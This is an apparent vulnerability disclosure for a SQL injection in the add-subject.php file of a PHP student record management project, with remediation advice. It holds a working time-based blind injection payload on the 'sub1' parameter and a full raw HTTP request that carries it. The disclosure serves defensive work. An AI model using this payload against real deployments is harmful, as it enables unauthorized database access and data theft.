


# Students Record Management Project in PHP V 3.20/add-subject.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Students Record Management Project in PHP
## Vendor Homepage

- https://phpgurukul.com/student-record-system-php/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Doracat

## Vulnerable File

- /add-subject.php

## VERSION(S)

- V3.20

## Software Link

- https://github.com/Doramer/doramer.github.io/raw/refs/heads/main/Student-Record-Management-System-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was discovered in the '/add subject. php' file of the 'Students Record Management Project in PHP' project. The reason for this issue is that attackers inject malicious code from the parameter 'sub1' and use it directly in SQL queries without the need for proper cleaning or validation. This allows attackers to forge input values, manipulate SQL queries, and insert and perform unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of the 'Students Record Management Project in PHP', I discovered a critical SQL injection vulnerability in the '/add subject. php' file. This vulnerability arises from insufficient user input validation of the 'sub1' parameter, allowing attackers to inject malicious SQL queries and insert data. Therefore, attackers can access databases, modify or delete data, and access sensitive information without authorization. Immediate remedial measures need to be taken to ensure system security and protect data integrity

# To exploit this vulnerability, login or authorization is required

# Vulnerability details and POC

## Vulnerability lonameion:

- 'sub1' parameter

## Payload:

```makefile
 Parameter: sub1 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sub1=1' and if(substr(database(),1,1)='s', sleep(3), 0) or '2 &sub2=&sub3=&submit=Create+Course
```

## The following are screenshots of some specific information obtained through testing:

```bash
POST /add-subject.php HTTP/1.1
Host: tourism.com
Content-Length: 95
Cache-Control: max-age=0
Origin: http://tourism.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://tourism.com/add-course.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=ufpll4qvr523ln7902u2gm7q38;
Connection: close

sub1=1' and if(substr(database(),1,1)='s', sleep(10), 0) or '2 &sub2=&sub3=&submit=Create+Course
```





# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.